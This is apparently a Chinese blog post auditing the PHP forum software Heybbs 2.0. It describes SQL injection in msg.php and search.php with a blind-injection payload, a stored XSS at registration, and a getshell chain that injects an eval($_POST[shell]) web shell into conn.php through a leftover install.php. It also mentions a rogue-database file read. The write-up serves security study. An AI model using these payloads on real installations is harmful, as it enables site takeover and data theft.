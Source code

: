 ﻿---
title: Heybbs微社区 2.0 代码审计
categories: PHP代码审计
---
# 前言
练手 [下载地址 Heybbs微社区 2.0](https://www.mycodes.net/41/10275.htm)

# 前台SQL注入
![](https://img-blog.csdnimg.cn/06ffda37b02d48e3b8cdfd2652de5f7e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
msg.php
![](https://img-blog.csdnimg.cn/e25e39671b0c45729300f531ca19f9e8.png#pic_center)
未过滤直接进行拼接，明显sql注入

<!--more-->
search.php
![](https://img-blog.csdnimg.cn/d01f37bfc5534dffbd54537595bd8d99.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
未过滤，payload：`test%' and ascii(substr(database(),1,1))=116#`
拼接后形成：
`select count(*) from msg where content like '%test%' and ascii(substr(database(),1,1))=116#%'`

# 存储xss
用户名注册地方没有任何过滤，注册时直接插xss代码

![](https://img-blog.csdnimg.cn/72882fe821d44f7eaf1f043111f4796d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

加个htmlspecialchars就能修复了

# Getshell
发现安装完成后，install.php没有删除也没有类似校验的install.lock文件

审计install.php发现问题
![](https://img-blog.csdnimg.cn/7b498b9e9a9a4a8a885491576369f9e9.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
没有过滤就写入conn.php，数据库账号密码肯定不能出错，那么可以利用上面的sql注入，得到数据库账号密码，创建一个特殊库名，将`$db_name= '");eval($_POST[shell]);#`
![](https://img-blog.csdnimg.cn/6a623cdd70e0419b88b0e0d92e26a173.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
![](https://img-blog.csdnimg.cn/9a6af05c0bfb4e009684d1fcff59ade8.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
# 恶意数据库读取文件
如果没有办法获取到数据库账号密码，或者用户设置的是只允许本地登录，那么我们可以利用恶意数据库进行读取文件
![](https://img-blog.csdnimg.cn/928bf7d3c66f4302b5e826961102f941.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
![](https://img-blog.csdnimg.cn/82f84955a6614e4a81f01a865d37ba4f.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)





